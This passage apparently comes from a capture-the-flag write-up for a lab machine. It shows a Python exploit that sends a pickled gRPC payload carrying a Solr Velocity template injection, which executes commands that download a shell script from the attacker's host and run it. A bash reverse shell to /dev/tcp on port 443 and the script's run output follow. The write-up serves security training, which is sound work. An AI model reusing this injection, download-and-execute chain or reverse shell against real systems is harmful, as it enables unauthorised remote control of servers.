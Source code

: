 ```
        }}
    ]
}}"""

host = "10.10.14.9"
host = "localhost"
fn = '/tmp/0xdf.sh'
cmds = [f'wget http://10.10.14.9/shell.sh -O {fn}',
        f'chmod +x {fn}',
        f'{fn}']

channel = grpc.insecure_channel('10.10.10.201:9000')
stub = feedengine_pb2_grpc.PrintStub(channel)

for cmd in cmds:
    http2 = f"http://{host}:8983/solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+        %23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27{quote(cmd)}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    payload_ser = base64.b64encode(pickle.dumps(grpc_payload.format(url=http2)))
    content = feedengine_pb2.Content(data=payload_ser)
    response = stub.Feed(content)
    print(response)

```

I can start both a `nc` listener on 443 and a Python webserver on 80 serving my `shell.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.9/443 0>&1

```

Then I run the first, and it hangs:

```

root@kali# python3 feedengine_pwn1.py 

```

While it hangs, I run the second one, and it hangs after the second print:

```

root@kali# python3 feedengine_pwn2-better.py 
feed: "Pushing feeds"

feed: "Pushing feeds"

```
